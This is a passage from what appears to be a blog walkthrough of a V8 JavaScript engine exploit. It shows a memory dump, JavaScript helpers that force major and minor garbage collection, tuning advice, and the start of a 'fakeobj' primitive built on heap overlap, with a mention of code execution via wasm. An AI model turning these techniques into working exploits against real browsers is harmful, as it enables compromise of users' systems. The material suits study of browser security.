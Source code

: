 ```console
0x199c001c2160|+0x0018|+003: 0x4000cccccccccccd
0x199c001c2168|+0x0020|+004: 0x4008cccccccccccd
0x199c001c2170|+0x0028|+005: 0x4010666666666666
0x199c001c2178|+0x0030|+006: 0x4014666666666666
0x199c001c2180|+0x0038|+007: 0x4018666666666666
0x199c001c2188|+0x0040|+008: 0x401c666666666666
0x199c001c2190|+0x0048|+009: 0x4020333333333333
```

> [!NOTE]
> We could also immediately perform major gc after the first minor gc.
> Further down this blog, I used major gc instead as in the attempt to
> gain code execution via wasm, garbage collection is unwantedly triggered when
> we try to import the wasm bytecode. This messes up our whole overlapping setup

Now, instead of relying on `gc()` which is only accessible with `--expose-gc`
command line flags, let's try to implement our own function which would trigger
major/minor GC.

```js
// yoinked from https://issues.chromium.org/action/issues/40059133/attachments/53188081?download=false
// and adjusted accordingly
roots = new Array(0x20000);
index = 0;

function major_gc() {
    new ArrayBuffer(0x40000000);
}

function minor_gc() {
    for (var i = 0; i < 8; i++) {
        roots[index++] = new ArrayBuffer(0x200000);
    }
    roots[index++] = new ArrayBuffer(8);
}
```

When we try to call `major_gc()`, we could see that `--trace-gc` emit similar
message to the one by `gc()`. The same goes to `minor_gc()`. However, our
implementation of `minor_gc()` is not perfect as calling this function `n` times,
occassionally, may not trigger exact `n` scavenging, there could be more or less
scavenging. Thus, adjustment is necessary on different development environment.

> [!NOTE]
> It is better to try out your exploit without `--trace-gc` and without the
> debugging code like `eval("%DebugPrint(re)")` as these consume memory space
> and may mess up our calculation

### fakeobj primitive

To create a fake object primitive, we would need to align our `re.lastIndex` value
with one of our `spray` array elements.
If `&spray.elements` is located at slightly higher memory address, we could
allocate some memory before `re.lastIndex` heap number is allocated like so.


[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>